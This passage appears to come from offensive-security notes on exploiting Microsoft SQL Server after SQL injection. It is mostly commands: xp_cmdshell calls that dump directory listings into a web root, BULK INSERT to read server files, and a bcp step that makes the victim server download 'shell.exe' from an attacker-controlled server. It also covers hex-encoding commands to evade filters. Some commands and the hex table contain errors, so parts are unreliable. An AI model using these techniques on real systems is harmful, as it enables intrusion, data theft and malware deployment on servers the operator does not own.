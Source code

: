To read the result, we can save the output of the command on a web accessible folder:
```
EXEC master..xp_cmdshell 'dir c:\ > C>\inetpub\wwwroot\site\dir.txt'--
```

// then browser to dir.txt at the URL http://site.com/dir.txt

Or we can read a file on the server and then put its content into a table. Then we can extract the table via SQLi like any other table:
```
CREATE TABLE filecontent (line varchar(8000));
BULK INSERT filecontent FROM '<target file>';
// drop the table after extracting it
// DROP TABLE filecontent;
```

### Uploading Files
Uploading a file involves two steps:
```
1. We have to insert the file into a table in a MS SQL database under our control
	CREATE TABLE HelperTable (file text)
	BULK INSERT HelperTable FROM 'shell.exe' WITH (codepage='RAW')
2. We force the target DB server to retrieve it from our server
	EXEC xp_cmdshell 'bcp "SELECT * FROM HelperTable" queryout shell.exe -c -Craw -S <our server address> -U <our server username> -P <our server password>' 
	// the victim server will connect to our SQL server, read the exe file from the table and recreate it remotely.
```

### Storing Command Results into a Temporary Table
Create a temporary table to hold the stored procedure output
```
create table temptable (id into not null identity (1,1), output nvarchar(4096) null);--
```

> the id column will help us to access different command outputs while the output column will contain the actual command results.

Crafting the argument For xp_cmdshell:
// we need to convert the command string of the command we want to run into an ASCII representation.
example: **dir c:\** > we have to convert every character to it HEX ASCII representation.


|64 | d|
|69 | i|
|72 | r|
|20 | " "|
|63 | c|
|3a | :|
|4c | \|
